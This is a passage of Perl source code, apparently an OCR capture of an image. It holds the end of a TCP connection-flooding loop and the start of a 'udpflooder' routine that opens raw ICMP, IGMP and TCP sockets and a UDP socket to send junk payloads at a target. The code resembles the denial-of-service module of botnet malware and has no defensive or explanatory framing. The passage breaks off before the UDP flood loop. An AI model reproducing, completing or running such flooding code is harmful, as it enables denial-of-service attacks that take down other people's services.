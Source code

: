    while ($l<1000){ 

      $cur_time = time - $itime; 

      last if $cur_time >= $ftime; 

      $t="SOCK$l"; 

      socket($t,PF_INET,SOCK_STREAM,$proto); 

      connect($t,$pa)||$j--; 

      $j++; 

      $l++; 

   } 

   $l=0; 

   while ($l<1000){ 

      $cur_time = time - $itime; 

      last if $cur_time >= $ftime; 

      $t="SOCK$l"; 

      shutdown($t,2); 

      $l++; 

   } 

} 

  

sub udpflooder { 

   my $iaddr = inet_aton($_[0]); 

   my $msg = 'A' x $_[1]; 

   my $ftime = $_[2]; 

   my $cp = 0; 

   my (%pacotes); 

   $pacotes{icmp} = $pacotes{igmp} = $pacotes{udp} = $pacotes{o} = $pacotes{tcp} = 0; 

   socket(SOCK1, PF_INET, SOCK_RAW, 2) or $cp++; 

   socket(SOCK2, PF_INET, SOCK_DGRAM, 17) or $cp++; 

   socket(SOCK3, PF_INET, SOCK_RAW, 1) or $cp++; 

   socket(SOCK4, PF_INET, SOCK_RAW, 6) or $cp++; 

   return(undef) if $cp == 4; 

   my $itime = time; 

   my ($cur_time); 
